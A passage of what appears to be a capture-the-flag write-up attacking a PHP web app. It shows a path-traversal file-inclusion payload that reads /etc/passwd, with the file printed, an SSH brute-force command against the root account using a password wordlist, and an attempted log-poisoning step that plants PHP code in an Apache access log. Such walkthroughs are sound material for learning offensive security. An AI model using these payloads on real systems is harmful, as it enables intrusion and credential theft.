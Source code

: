 ```php
</html>
```

Ohhh well.. Should have done this before, there is a `ext` query param, let's use that.

We can set the query parameters:
```
view = "../../../var/lib/mlocate/../../../etc"
ext = "/passwd"
```

And we get the `/etc/passwd` file :
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Hmm seems like only root can login.. I doubt we can bruteforce the root ssh password... let's try it anyways
```
patator ssh_login host=$IP user=root password=FILE0 0=rockyou.txt -x ignore:mesg='Authentication failed.'
```

Ok so back to the local file inclusion.
Found some method that use the `/var/log/apache2/access.log` file.
To test it, we do a get request to `http://$IP/<?php phpinfo(); ?>`
Than we query the access.log file with `../../../var/lib/mlocate/../../../var/log/apache2/&ext=/access.log`

Unfortunately, the access.log can't be displayed... we get the error :
```
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 207257808 bytes) in /var/www/html/index.php on line 24
```

We might be able to do it on a clean machine tho ? The access.log would be smaller.

I was able to load it by restarting the machine but my code was not executed (First log was showing fine but when i did the request to `/<?php phpinfo(); ?>` it wouldn't work anymore. We get the error :
```
Parse error: syntax error, unexpected 'GET' (T_STRING) in /var/log/apache2/access.log on line 7
```

